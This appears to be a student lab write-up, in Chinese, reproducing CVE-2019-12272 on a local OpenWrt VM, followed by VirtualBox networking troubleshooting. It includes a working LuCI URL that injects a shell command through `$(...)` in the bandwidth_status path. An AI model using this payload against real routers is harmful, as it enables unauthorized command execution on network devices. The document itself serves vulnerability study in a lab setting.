

## CVE-2019-12272漏洞复现

#### 一、手工利用复现

- 根据老师提供的含漏洞OpenWrt的[下载资源](https://c4pr1c3.github.io/cuc-mis/chap0x04/cve-2019-12272.html)下载镜像压缩包

- 解压压缩包，并将img文件转变成vdi

  ```txt
  C:\Users\Jane\Downloads\openwrt-15.05.1-x86-64-combined-ext4.img>VBoxManage convertfromraw --format VDI openwrt-15.05.1-x86-64-combined-ext4.img ext4.vdi
  Converting from raw image file="openwrt-15.05.1-x86-64-combined-ext4.img" to file="ext4.vdi"...
  Creating dynamic image with size 55050240 bytes (53MB)...
  ```

  

- 新建虚拟机，选择64位linux的虚拟机，1024MB内存，选择刚刚创建好的vdi文件。配置网卡，第一块是host-only, 第二块是NAT网络地址转换

- 启动刚刚创建好的openwrt，`vim etc/config/network`手动分配一下lan的地址为宿主机`192.168.56.xxx`的同一网段，`/etc/init.d/network restart`重启一下网络生效

  

- 打开浏览器输入`192.168.56.32`，默认无密码登陆root

- 观察每次登录网址的变化，发现后面会跟随一串每次都不一样会话token，例如`http://192.168.56.32/cgi-bin/luci/;stok=511cb580e774e832ba6babbf19286cc8`

- 复制粘贴`admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)`在上述网址后面，回车触发漏洞：

  ```txt
  # 触发漏洞：
  http://192.168.56.32/cgi-bin/luci/;stok=511cb580e774e832ba6babbf19286cc8/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3Ecmd.txt)
  ```

- 访问`192.168.56.32/cmd.txt`。不同命令漏洞利用的效果如下：

  

  


#### 自动化利用漏洞

未完待续。。。

#### 遇到的问题

1. Luci打不开，发现host-only挂了，宿主机ping不通，检查了网络管理器里宿主机virtualbox host-only network的IPV4的地址，没有问题，在同一网段下，又检查了一遍虚拟机网络配置，选择adapter正确，就是挂，于是决定重装宿主机的adapter:

   - “win+r”输入“devmgmt.msc”

   - 卸载virtualbox host-only network

   - 选中网络适配器-操作，重新安装virtualbox host-only network

   - 重新选择虚拟机网络适配器

   - 手动配置virtualbox host-only network的IPV4地址为192.168.56.44，掩码255.255.255.0

   - 宿主机终于ping通了，luci页面终于出现了

     

```txt
C:\Users\Jane\Downloads\openwrt-15.05.1-x86-64-combined-ext4.img>ping 192.168.56.32

正在 Ping 192.168.56.32 具有 32 字节的数据:
来自 192.168.56.1 的回复: 无法访问目标主机。
请求超时。
请求超时。

192.168.56.32 的 Ping 统计信息:
    数据包: 已发送 = 3，已接收 = 1，丢失 = 2 (66% 丢失)，
Control-C
^C
C:\Users\Jane\Downloads\openwrt-15.05.1-x86-64-combined-ext4.img>ipconfig

Windows IP 配置


以太网适配器 以太网 7:

   连接特定的 DNS 后缀 . . . . . . . :
   本地链接 IPv6 地址. . . . . . . . : fe80::bd91:bc7d:7af0:3eed%25
   IPv4 地址 . . . . . . . . . . . . : 192.168.56.44
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . :

以太网适配器 以太网 8:

   连接特定的 DNS 后缀 . . . . . . . :
   本地链接 IPv6 地址. . . . . . . . : fe80::f859:e5fc:5055:a203%47
   IPv4 地址 . . . . . . . . . . . . : 192.168.56.1
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . :

无线局域网适配器 本地连接* 1:

   媒体状态  . . . . . . . . . . . . : 媒体已断开连接
   连接特定的 DNS 后缀 . . . . . . . :

无线局域网适配器 本地连接* 2:

   媒体状态  . . . . . . . . . . . . : 媒体已断开连接
   连接特定的 DNS 后缀 . . . . . . . :

以太网适配器 以太网 4:

   媒体状态  . . . . . . . . . . . . : 媒体已断开连接
   连接特定的 DNS 后缀 . . . . . . . :

无线局域网适配器 WLAN:

# 因为隐私保护删除此段结果
 

C:\Users\Jane\Downloads\openwrt-15.05.1-x86-64-combined-ext4.img>ping 192.168.56.32

正在 Ping 192.168.56.32 具有 32 字节的数据:
来自 192.168.56.32 的回复: 字节=32 时间<1ms TTL=64
来自 192.168.56.32 的回复: 字节=32 时间<1ms TTL=64
来自 192.168.56.32 的回复: 字节=32 时间<1ms TTL=64

192.168.56.32 的 Ping 统计信息:
    数据包: 已发送 = 3，已接收 = 3，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 0ms，最长 = 0ms，平均 = 0ms
Control-C
^C
C:\Users\Jane\Downloads\openwrt-15.05.1-x86-64-combined-ext4.img>
```

